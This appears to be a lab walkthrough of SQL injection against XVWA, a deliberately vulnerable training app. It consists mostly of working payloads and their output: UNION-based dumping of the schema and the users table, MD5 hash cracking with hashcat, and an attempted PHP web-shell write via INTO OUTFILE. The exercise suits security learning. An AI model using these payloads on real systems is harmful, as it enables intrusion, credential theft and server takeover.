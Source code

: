 # Exploiting SQLi

## 1. Confirm injection


Check if it is vulnerable
```sql
'
```
Second check
```sql
' OR 1=1 -- -
```

## 2. Get number of fields used in the query
```sql
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
' ORDER BY 4 -- -
' ORDER BY 5 -- -
' ORDER BY 6 -- -
' ORDER BY 7 -- -
```

## 3. Place fields in the interface
```sql
1000' UNION SELECT 1, 2, 3, 4, 5, 6, 7 -- -
```

## 4. Get some information
```sql
1000' UNION SELECT 1, DATABASE(), 3, USER(), VERSION(), 6, 7 -- -
```

**Output obtained**
```
xvwa,root,8.0.23-0ubuntu0.20.04.1
```

## 5. Get tables in database
```sql
1000' UNION SELECT 1, 2, 3, 4, GROUP_CONCAT(table_name), 6, 7 FROM information_schema.tables WHERE table_schema='xvwa' -- -
```

**Output obtained**
```
caffaine,comments,users
```

## 6. Get columns from table `users`
```sql
1000' UNION SELECT 1, 2, 3, 4, GROUP_CONCAT(column_name), 6, 7 FROM information_schema.columns WHERE table_schema='xvwa' AND table_name='users' -- -
```

**Output obtained**
```
uid,username,password
```

## 7. Get records from table `users`
```sql
1000' UNION SELECT 1, 2, 3, 4, GROUP_CONCAT(uid, ':', username, ':', password, ' - '), 6, 7 FROM users LIMIT 1 -- -
```

**Output obtained**
```
1:admin:21232f297a57a5a743894a0e4a801fc3 
2:xvwa:570992ec4b5ad7a313f5dc8fd0825395
3:user:25890deab1075e916c06b9e1efc2e25f 
```

## 8. Crack passwords

Hashes seems to be MD5:

```shell
❯ hash-identifier '21232f297a57a5a743894a0e4a801fc3'
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Using `hashcat` to crack it:

```shell
❯ hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1155G7 @ 2.50GHz, 6828/13720 MB (2048 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

21232f297a57a5a743894a0e4a801fc3:admin                    
25890deab1075e916c06b9e1efc2e25f:vulnerable   
```

Only cracked two of the three passwords, cracking last password with [Crackstation](https://crackstation.net):

```
21232f297a57a5a743894a0e4a801fc3	md5	admin
570992ec4b5ad7a313f5dc8fd0825395	md5	xvwa
25890deab1075e916c06b9e1efc2e25f	md5	vulnerable
```

## 9. Bonus: Try to upload a shell

As database is running under root user, it would be interesting try to upload shell executing commands as root:

```sql
1000' UNION SELECT '<?php system($_GET["cmd"]); ?>', '', '', '', '', '', '' INTO OUTFILE '/var/www/html/xvwa/shell.php' -- -
```

But unfortunately we have no permissions to it:

```
Fatal error: Uncaught mysqli_sql_exception: The MySQL server is running with the --secure-file-priv option so it cannot execute this statement in /var/www/html/xvwa/vulnerabilities/sqli/home.php:61 Stack trace: #0 /var/www/html/xvwa/vulnerabilities/sqli/home.php(61): mysqli->query() #1 /var/www/html/xvwa/vulnerabilities/sqli/index.php(50): include('/var/www/html/x...') #2 {main} thrown in /var/www/html/xvwa/vulnerabilities/sqli/home.php on line 61
```

